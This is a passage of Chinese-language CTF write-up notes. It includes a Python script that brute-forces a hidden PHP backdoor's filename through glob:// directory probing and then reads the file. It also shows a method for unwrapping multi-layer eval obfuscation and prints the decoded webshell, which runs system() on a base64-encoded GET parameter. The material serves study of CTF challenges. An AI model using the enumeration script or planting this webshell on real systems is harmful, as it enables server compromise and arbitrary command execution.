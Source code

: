 			  ```
		- 然后直接爆
			- ```python
			  known = "backdoor_"
			  while len(known) < len("backdoor_xxxxxx"):
			      guess = known + random.choice("1234567890abcdef")
			      payload = payload_scandir("glob://./{}*php".format(guess))
			      r = requests.get(url, params = {
			          "p": payload
			      })
			      if "Not null" in r.text:
			          print(guess)
			          known = guess
			  
			  payload = get_base64_payload("./{}.php".format(known))
			  r = requests.get(url, params = {
			      "p": payload
			  })
			  print(r.text)
			  ```
			- `payload_scandir`生成调用 ((644a3616-7de8-4241-822d-a5bb9495f5f6)) 后的结果
			- `get_base64_payload`生成调用 ((644a346b-a944-4ecb-a400-794cce1e04b1)) 的结果
	- php webshell反混淆
		- 题目所给后门使用了多层eval,我们可以写一个`evall`函数，然后将`eval`替换成`evall`来获得每层eval的结果
		- `evall`的实现
			- ```php
			  function evall($s){
			      echo $s;
			      echo "\n---\n";
			      eval(str_replace("eval(", "evall(", $s));
			  }
			  ```
		- 最后的解密结果
			- ```php
			  <?php
			  $erzo_f851f55b = [
			      base64_decode('ZmxhZ3sjX2FiY2RlZn0='),
			      base64_decode('ZmxhZ3tiMHdfYjB3fQ=='),
			      base64_decode('ZmxhZ3t0ZXRfZmxhZ30='),
			      base64_decode('ZmxhZ3s5OSF6elN3Y30='),
			      base64_decode('ZmxhZ3tkZWJ1R19mdHd9'),
			      base64_decode('ZmxhZ3toZWxsX3llYWh9'),
			      base64_decode('ZmxhZ3t0NHN0fQ==')
			  ];
			  $igxc_9ce88802 = '';
			  $bbmg_1b267619 = 0;
			  foreach ($erzo_f851f55b as &$djkg_417c4fa3) {
			      $igxc_9ce88802 = $djkg_417c4fa3[$bbmg_1b267619] . $igxc_9ce88802;
			      $bbmg_1b267619++;
			  };
			  if (isset($_GET[$igxc_9ce88802])) {
			      $grxe_fd6b6fc9 = $_GET[$igxc_9ce88802];
			      $pgck_32cfe6c1 = base64_decode($grxe_fd6b6fc9);
			      $jipp_8a561003 = substr($pgck_32cfe6c1, 5, -5);
			      echo $jipp_8a561003;
			      system($jipp_8a561003);
			  } else {
			      echo base64_decode('NDA0');
			  };
			  